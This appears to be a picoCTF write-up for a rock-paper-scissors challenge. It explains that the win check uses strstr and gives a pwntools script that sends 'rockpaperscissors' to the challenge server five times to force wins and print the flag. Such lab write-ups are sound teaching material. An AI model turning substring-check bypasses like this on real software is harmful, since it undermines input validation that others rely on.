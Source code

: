 Focus on the important stuff.

We need 5 wins to get the flag.

```c
  if (wins >= 5) {
    puts("Congrats, here's the flag!");
    puts(flag);
  }
```

The program checks our answer with `strstr`.

```c
  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
```

From the `man` page of `strstr`:

```bash
STRSTR(3)                        Linux Programmer's Manual                        STRSTR(3)

NAME
       strstr, strcasestr - locate a substring

SYNOPSIS
       #include <string.h>

       char *strstr(const char *haystack, const char *needle);

       #define _GNU_SOURCE         /* See feature_test_macros(7) */

       #include <string.h>

       char *strcasestr(const char *haystack, const char *needle);

DESCRIPTION
       The  strstr()  function  finds  the  first occurrence of the substring needle in the
       string haystack.  The terminating null bytes ('\0') are not compared.
```

So, if we give all the possible answers as input, it will always come true and win.

```python
from pwn import *

r = remote('saturn.picoctf.net', 53864)

for i in range(5):
	r.sendline(b'1')
	r.sendline(b'rockpaperscissors')

r.recvuntil(b'pico')

print(f'\nFlag --> pico{r.recvuntil(b"}").decode()}\n')
```
